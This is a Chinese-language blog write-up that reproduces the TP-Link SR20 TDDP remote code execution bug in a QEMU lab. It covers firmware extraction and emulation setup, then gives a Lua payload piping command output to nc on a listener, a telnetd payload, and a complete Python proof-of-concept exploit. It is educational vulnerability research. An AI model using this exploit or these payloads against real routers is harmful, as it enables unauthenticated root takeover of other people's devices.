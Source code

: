 ```yaml
---
title: TP-Link SR20远程代码执行漏洞
date: 2019-4-29 00:18:51
tags: [IoT,路由器]
categories: IoT
---
```


## 0x00 缘起

IoT设备，固件小，功能单一，相对操作系统上一些成熟应用程序来说漏洞比较少但是却更容易利用；嵌入式linux环境下的漏洞挖掘类似于对linux的程序做模糊测试，甚至有点类似于CTF中的linux pwn，所以对新人还是相对来说比较友好的。为了拓展自己的学习领域，最终还是踏足了IoT这一块。这边记录下复现这个路由器的代码执行漏洞的过程，熟悉下相关工具&环境的使用和配置。

## 0x01 漏洞原理

```
此远程代码执行漏洞允许用户在设备上以 root 权限执行任意命令，该漏洞存在于 TP-Link 设备调试协议(TP-Link Device Debug Protocol 英文简称 TDDP) 中，TDDP 是 TP-Link 申请了专利的调试协议，基于 UDP 运行在 1040 端口
TP-Link SR20 设备运行了 V1 版本的 TDDP 协议，V1 版本无需认证，只需往 SR20 设备的 UDP 1040 端口发送数据，且数据的第二字节为 0x31 时，SR20 设备会连接发送该请求设备的 TFTP 服务下载相应的文件并使用 LUA 解释器以 root 权限来执行，这就导致存在远程代码执行漏洞
```

## 0x02 工具准备

- 源码编译qemu，直接apt的话可能安装的不是最新版本
- 源码编译binwalk，直接apt的话可能 会有依赖问题

## 0x03 固件提取

这边贴一下[官网的固件下载页](<https://www.tp-link.com/us/support/download/sr20/#Firmware>)，vuln的固件可以去上面找。tplink的固件留有历史版本还是很良心的，之前分析vivotek摄像头rce漏洞的时候由于官网并没有放出历史版本而导致一直无法对patch的固件进行利用，就很坑。

拿到固件后binwalk看一下包文件布局

![](./binwalk.png)

binwalk成功识别出了固件中的文件系统，确认是固件文件后再次binwalk -Me提取出固件中的Squashfs filesystem。

![](./binwalk2.png)

qemu来运行程序

![](./run1.png)

直接qemu-arm是不行的，一些依赖库会找不到，需要指定当前目录为根，加入到path中;这边可以chroot，也可以直接用qemu的-L选项。

发现这种方式运行tddp并不能触发漏洞，这边选择搭建完整的arm qemu的虚拟环境。

##0x04 搭建环境

从debian官网下载qemu的arm debian系统的文件：

- debian_wheezy_armhf_standard.qcow2
- initrd.img-3.2.0-4-vexpress
- vmlinuz-3.2.0-4-vexpress

之后把三个文件放在一个目录下执行

```
$ sudo tunctl -t tap0 -u `whoami`  # 为了与 QEMU 虚拟机通信，添加一个虚拟网卡
$ sudo ifconfig tap0 10.10.10.1/24 # 为添加的虚拟网卡配置 IP 地址
$ qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 -append "root=/dev/mmcblk0p2 console=ttyAMA0" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic
```



![](./虚拟机1.png)

![](./虚拟机2.png)

配置网卡ip

`ifconfig eth0 10.10.10.2/24`

![](./网络2.png)

![](./网络1.png)

发现虚拟机可以与宿主机的虚拟网卡通信了。

现在需要把固件系统传到qemu的arm debian虚拟机中，这边用python的httpserver就好了。

`python -m SimpleHttpServer`

qemu虚拟机上执行`wget http://10.10.10.1:8000/squashfs-root.tar.bz2`获取宿主机文件。

![](./文件1.png)

传好以后需要将当前目录设定为根目录，否则的话有些库会从debian系统的lib目录下去寻找。

```
mount -o bind /dev ./squashfs-root/dev/
mount -t proc /proc/ ./squashfs-root/proc/
chroot squashfs-root sh # 切换根目录后执行新目录结构下的 sh shell
```

![](./配置1.png)

之后在宿主机搭建tftp服务

` sudo apt install atftpd`

![](./服务1.png)

到这边漏洞环境搭建完毕。



## 0x05 漏洞复现

在atftp的根目录/tftpboot写下payload，内容为

```
function config_test(config)
  os.execute("id | nc 10.10.10.1 1337")
end
```

- QEMU 虚拟机中启动 tddp 程序
- 宿主机使用 NC 监听端口
- 执行 POC，获取命令执行结果



```
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

# Create a file in your tftp directory with the following contents:
#
#function config_test(config)
#  os.execute("telnetd -l /bin/login.sh")
#end
#
# Execute script as poc.py remoteaddr filename

import sys
import binascii
import socket

port_send = 1040
port_receive = 61000

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(('', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;arbitrary" % sys.argv[2]
packet = packet + argument.encode()
sock_send.sendto(packet, (sys.argv[1], port_send))
sock_send.close()

response, addr = sock_receive.recvfrom(1024)
r = response.encode('hex')
print(r)
```



`nc -lvnp 1337`

`python3 poc.py 10.10.10.2 /payload`

![](./成功.png)





